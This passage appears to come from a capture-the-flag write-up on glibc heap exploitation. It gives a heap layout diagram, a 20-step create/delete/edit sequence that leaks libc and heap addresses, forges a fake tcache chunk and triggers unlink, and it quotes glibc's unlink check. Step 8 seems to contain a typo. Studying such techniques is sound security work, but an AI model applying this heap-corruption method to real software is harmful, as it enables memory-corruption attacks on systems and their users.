 
The heap before finally freeing C2 to trigger unlink should look something like this
```
	 |		 8		 |		 8		 |
0x250|	   unused	 |			   f1|
					...
0x340|			  300|			   90| <- C2
					...
0x3d0|				 |			   71| <- next chunk for C2, so that freeing C2 will not trigger any error
					...
0x440|				 |			   91| <- C3
```


### Putting it together
Now we have managed to leak libc\_base, leak heap\_addr ,craft tcache\_fake\_chunk and craft next\_chunk to unlink with it seperately, lets see how we can combine those two parts to actually trigger unlink without getting any errors

The entire procedure can be illustrated as below, notice the difference between this and previous listed procedure
1. C1 = create(0x388)
2. C2 = create(0x388)					// for leaking heap
3. C3 = create(0x388)					// for leaking heap
4. delete(C2)
5. delete(C3)
6. show(C3)								// leak heap
7. (C2 = create(0x398), delete(C2))		// set tcache\_fake\_chunk -> prev\_inuse = 1
8. (C2 = delete(0x3a8), delete(C2))*3	// set tcache\_fake\_chunk -> size = 0x300
9. (C2 = create(0x388),delete(C2))*5	// two were freed earlier, only five more needed
10. (C2 = create(0x88),delete(C2))*7
11. delete(C1)							// leak unsorted bin
12. C2 = create(0xe8)
13. C2 = create(0xf8)
14. C3 = create(0x88)
15. edit(C1, padding+fakeC3chunk(size=0x21, prev\_inuse=True, next\_chunk is valid))	// craft 0x20 chunk
16. delete(C3)																			// set tcache\_fake\_chunk -> fd = C3+0x10
17. edit(C1, padding+fakeC3chunk(size=0x31, prev\_inuse=True, next\_chunk is valid))	// craft 0x30 chunk
18. delete(C3)																			// set tcache\_fake\_chunk -> bk = C3+0x10
19. edit(C1, padding+fakeC2chunk(size=0x90, prev\_inuse=False, prev\_size=0x300, next\_chunk is valid)+fakeunsortedchunk(addr=C3+0x10))
20. delete(C2)

Most of the difference are trivially understandable, the only one probably needs some explaination is #19  
The fake\_unsorted\_chunk here need not be a legimate chunk, it is assigned to satisfy the need for unlinking properly  
The only check in unlink is  
```
if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
	malloc_printerr ("corrupted double-linked list");
```
So to unlink properly, we have to set
1. tcache\_fake\_chunk -> fd -> bk = tcache\_fake\_chunk
1. tcache\_fake\_chunk -> bk -> fd = tcache\_fake\_chunk
